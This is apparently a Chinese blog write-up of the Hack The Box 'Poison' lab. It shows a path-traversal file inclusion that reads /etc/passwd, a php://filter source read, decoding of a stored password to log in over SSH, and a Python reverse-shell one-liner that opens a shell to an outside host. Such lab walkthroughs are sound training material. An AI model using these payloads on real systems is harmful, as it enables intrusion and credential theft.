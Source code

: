 ```yaml
---
categories:
- training
tags: 
    - training
    - tools
---
```


#### 1. 端口扫描
ip: 10.10.10.84
>22/tcp   open  ssh
80/tcp   open  http
5802/tcp open  vnc-http-2
5902/tcp open  vnc-2
5903/tcp open  vnc-3
6002/tcp open  X11:2
6003/tcp open  X11:3

嗯，确认是linux系统
#### 2. web探测

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/2.PNG)
一看到浏览器上的URL：`file=xxx`，就富有职业精神的输入`../../../../../etc/passwd`

![啊哈~一个文件包含](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/3.PNG)

> Info1——机器上普通用户名称:
 hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh

运行：`http://10.10.10.84/browse.php?file=php://filter/convert.base64-encode/resource=config.php`

>Info2——文件路径：
Warning: include(php://filter/convert.base64-encode/resource=config.php): failed to open stream: operation failed in /usr/local/www/apache24/data/browse.php on line 2
Warning: include(): Failed opening 'php://filter/convert.base64-encode/resource=config.php' for inclusion (include_path='.:/usr/local/www/apache24/data') in /usr/local/www/apache24/data/browse.php on line 2

于是用php协议，访问browse.php，用hackbar解码一下。
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/4.PNG)
本来想用dirbuster扫描下存在的文件，再用文件包括去查看敏感文件。。。
但是，这个实验中，主页面上有一个listfiles.php，访问以后，直接指出了一个pwdbackup.txt。

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/5.PNG)
上面说这个密码很安全，它被加密了13次。真的还能出什么问题。
然后我一看，我去，base64编码还好意思说安全，加密13次又有什么意义吗？
我还是太菜，手动把密文的\n去掉，然后再解码，很多次解码后，密码为：`Charix!2#4%6&8(0`

方法二：
sed -i 's/\n//g' pwdbackup.txt
>Info3——口令
Charix!2#4%6&8(0

- Trying:
`ssh charix@10.10.10.84`

charix/Charix!2#4%6&8(0
**ssh登陆成功**
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/6.PNG)

#### **3.提权**

/home/charix目录下有三个文件，一个flag；一个secret，是空文件；还有一个secret.zip。
那么需要解压一下，tar -zxvf secret.zip
提示`x secretEnter passphrase:`
那么需要输入密码，然后尝试错误密码，会反复提示`Enter passphrase`。
通过Info3口令，成功解压。
解压后是secret文件，类型为：`secret: Non-ISO extended-ASCII text, with no line terminators`

用cat secret，显示为乱码。

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/7.PNG)

![vi secret](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/8.png)

- sudo、gcc----------->command not found
- su             ------> Sorry
- uname -a查看内核版本，应该不是内核漏洞提权。
```
FreeBSD Poison 11.1-RELEASE FreeBSD 11.1-RELEASE #0 r321309: Fri Jul 21 02:08:28 UTC 2017     root@releng2.nyi.freebsd.org:/usr/obj/usr/src/sys/GENERIC  amd64
```
- `nc -l 999` -------> nc: Permission denied

- Trying（SUID提权，[参考](https://pentestlab.blog/tag/find/)）。
`find / -user root -perm -4000 -exec ls -ldb {} \;`
执行结果中，没有namp、vim、find等等可以提权的程序。

有意思的是，在连接过程中，ssh命令面板突然不灵了，无法输入任何命令。
重新连进去以后，我的readme.txt多了一行。。。看来遇到同道中人了。

- Trying：测试nc，用服务端连接kali。成功连接。
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/%E6%8D%95%E8%8E%B7%202.PNG)

不是吧。。又连不上了，第一次遇到被人挤下线。

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/%E6%8D%95%E8%8E%B7%203.PNG)

查看一下进程这些都是远程连进来的。。。
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/%E6%8D%95%E8%8E%B7%204.PNG)

- Trying：太卡了，弹一个python shell。
本地：`nc -lvp 1234`
服务器：`python ‐c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.198",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","‐i"]);'`

- Trying :
 python -m SimpleHTTPServer 888
```
Traceback (most recent call last):
  File "/usr/local/lib/python2.7/runpy.py", line 174, in _run_module_as_main
    "__main__", fname, loader, pkg_name)
 。。。此处省略几十行
socket.error: [Errno 13] Permission denied
```
- Trying：

![找到网站所在目录](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/%E6%89%BE%E5%88%B0%E7%BD%91%E7%AB%99%E6%89%80%E5%9C%A8%E7%9B%AE%E5%BD%95.png)

![3权限不够](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/3%E6%9D%83%E9%99%90%E4%B8%8D%E5%A4%9F.png)

- Trying:
尝试vnc远程命令执行
![查看开放端口](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/9.PNG)

![netstat](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/4netstat.PNG)

![尝试vnc远程命令执行](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/%E6%8D%95%E8%8E%B7%205.PNG)

use exploit/multi/vnc/vnc_keyboard_exec
set RHOST
set PASSWORD
set RPORT

试了好多密码，包括里面secret文件。失败

#### 2018.9.28.总结
[writeup参考](http://www.hackingarticles.in/hack-the-box-poison-walkthrough/)

[SSH原理与运用（二）：远程操作与端口转发](http://www.ruanyifeng.com/blog/2011/12/ssh_port_forwarding.html)
![01](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/01.PNG)

**通过绑定本地和远程的端口，就可以用vncviewer命令，使用密钥，开启vnc窗口**
vncviewer  -passwd secret  127.0.0.1:5901


